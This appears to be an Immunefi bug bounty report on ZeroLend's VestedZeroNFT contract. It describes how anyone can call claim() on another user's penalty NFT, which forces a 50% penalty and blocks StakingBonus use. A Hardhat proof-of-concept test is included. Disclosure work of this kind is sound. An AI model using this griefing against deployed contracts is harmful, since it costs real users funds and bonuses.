 
# Griefing attack for VestedZeroNFT

Submitted on Thu Mar 07 2024 13:12:50 GMT-0400 (Atlantic Standard Time) by @DuckAstronomer for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #29123

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)
- Permanent freezing of funds

## Description
## Vulnerability Details
It is possible for anyone to call the `claim()` function of the `VestedZeroNFT` contract on behalf of the NFT owner. This poses an issue especially when an NFT is minted with `penalty=true`. In such cases, the NFT owner ends up paying a penalty (currently 50%) and loses the ability to utilize the `StakingBonus` contract.

This situation sets the stage for a Griefing attack scenario where an attacker can trigger `claim()` for NFTs with `penalty=true`. Consequently, the owners bear penalties and forfeit the opportunity to receive bonuses through the `StakingBonus` mechanism.

## References
- https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L159
- https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L211
- https://github.com/zerolend/governance/blob/main/contracts/vesting/StakingBonus.sol#L74
- https://github.com/zerolend/governance/blob/main/contracts/locker/BaseLocker.sol#L333

        
## Proof of concept
## Proof of Concept
To run the Poc put it's code to the `governance-main/test/Gauge.poc.ts` file, generate a random private key, and issue the following command:

```
WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Gauge.poc.ts --config hardhat.config.ts --network hardhat
```

**PoC scenario**:
1. The deployer generates `VestedZeroNFT` with `penalty=true` to the Whale.
2. The Ant (attacker) quickly invokes `claim()` for the Whale's Nft.
3. As a result `50%` penalty is paid and now `unclaimed()` returns `0` for the Nft.
4. The Whale wants to transfer Nft to the `StakingBonus` contract, but their tx reverts since `unclaimed()` returns `0`.



```
import { expect } from "chai";
import { deployGovernance } from "./fixtures/governance";
import { loadFixture } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import {
  LockerToken,
  OmnichainStaking,
  StakingBonus,
  VestedZeroNFT,
  ZeroLend,
} from "../typechain-types";
import { e18 } from "./fixtures/utils";

describe("Immunefi Boost", () => {
  let ant: SignerWithAddress;
  let whale: SignerWithAddress;
  let vest: VestedZeroNFT;
  let now: number;
  let stakingBonus: StakingBonus;
  let zero: ZeroLend;
  let locker: LockerToken;
  let omniStaking: OmnichainStaking;

  beforeEach(async () => {
    const deployment = await loadFixture(deployGovernance);
    ant = deployment.ant;
    zero = deployment.zero;
    vest = deployment.vestedZeroNFT;
    stakingBonus = deployment.stakingBonus;
    locker = deployment.lockerToken;
    omniStaking = deployment.omnichainStaking;
    now = Math.floor(Date.now() / 1000);
    whale = deployment.whale;
  });


  // Run as: WALLET_PRIVATE_KEY=0x... NODE_ENV=test npx hardhat test test/Griefing.poc.ts --config hardhat.config.ts --network hardhat


  describe("Griefing", () => {
    it("Ant attacks Whale", async () => {
      expect(await vest.lastTokenId()).to.equal(0);

      // deployer should be able to mint a nft for Whale
      // with penalty = True
      await vest.mint(
        whale.address,
        e18 * 20n, // 20 ZERO linear vesting
        0, // 0 ZERO upfront
        1000, // linear duration - 1000 seconds
        0, // cliff duration - 0 seconds
        now + 1000, // unlock date
        true, // penalty!!
        0
      );

      expect(await vest.lastTokenId()).to.equal(1);

      // Ant calls claim() for minted Nft with penalty
      // Nft is minted for Whale
      await vest.connect(ant).claim(1);
      
      // Whale transfers Nft to StakingBonus contract
      // But it reverts
      await expect(
        vest
          .connect(whale)
          ["safeTransferFrom(address,address,uint256)"](
            whale.address,
            stakingBonus.target,
            1
        )
      ).to.be.reverted;
    });
  });
});
```